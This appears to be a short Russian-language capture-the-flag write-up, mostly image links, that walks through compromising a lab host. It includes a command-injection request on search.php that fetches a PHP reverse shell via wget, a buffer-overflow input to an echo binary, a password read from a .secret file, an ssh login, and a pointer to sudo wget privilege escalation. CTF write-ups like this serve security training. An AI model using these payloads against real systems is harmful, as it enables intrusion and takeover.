 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a38ac51-1a71-40a9-9c4d-27dcbd325b4c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)

Кидаем реверс php

GET /search.php?q=%22%3bwget%20ip:1234/test1.php%3b%22

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bbdcef7-fd6c-4aae-8c64-6478e7d687da)

`find / -user nolan`

echo

https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

```
./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')
```

Читаем файл .secret там пароль

Заходим по ssh `ssh nolan@62.173.140.174 -p 18822`

`sudo -l`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9e6a487a-8efe-43f2-ac46-d5ce87921409)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a863c83-2e9c-41ea-b125-a36cd846bcf4)




